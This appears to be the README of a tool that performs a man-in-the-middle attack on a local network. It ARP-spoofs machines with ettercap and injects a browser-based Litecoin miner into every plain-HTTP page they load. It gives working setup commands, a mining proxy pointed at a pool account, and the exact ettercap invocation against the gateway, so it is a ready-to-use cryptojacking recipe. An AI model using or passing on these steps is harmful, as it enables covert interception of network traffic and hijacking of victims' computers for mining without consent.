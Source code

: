 This provides a way to mine Litecoin, distributed over a network via browsers.
It will inject the code into the browsers of every computer reading html from
port 80 on a LAN and mine LTC in javascript.  Some pages work and some don't,
https for example is not supported, and probably never will be.  Some pages
also don't have 'room' once their newlines and comments have been removed to
inject the miner, the packet would be too long.  The code automatically prints
the correct number of spaces as 'filler' to line up to the packet offsets, and
fill the html page so we don't time it out on page load.  We mine on 4 threads
by default, but this can be easily modified.  By default we're doing this by
means of arp spoofing, but if you need to take the network in another way where
you can pass it through the etterfilter, feel free.



Install some dependancies:
```
apt-get install python2.7 devscripts debhelper pbuilder python-twisted python-dev python-setuptools python-autobahn libapache2-mod-php5 php5-curl ettercap apache2
```
setup stratum-mining-proxy:
```
cd stratum && ./setup.py develop
cd ..
cd stratum-mining-proxy && distribute_setup.py; chmod u+x setup.py; ./setup.py develop; mkdir log;
./mining_proxy.py -o ltc.ghash.io -p 3333 -sh 127.0.0.1 -oh 127.0.0.1  -cu up100454499.Web -cp yourpass -st -l log.txt
```
move lm to your apache directory:
```
cp lm /var/www/html -R
/etc/init.d/apache2 restart
```
MITM the network:
```
etterfilter hashnet.etterfilter -o nh.ef
ettercap -T -M arp:remote -q -F nh.ef /192.168.0.1/ //
```
CHANGE hashnet.etterfilter file's ip in the perl script section to point to the webserver where you host the miner.

Test it by going to 127.0.0.1/lm

NOTE: You need a pretty large LAN for this to be worth it.  This mines with 4 cpu threads by default.
THANKS: Thanks to slush0, esenminer, and the ettercap team
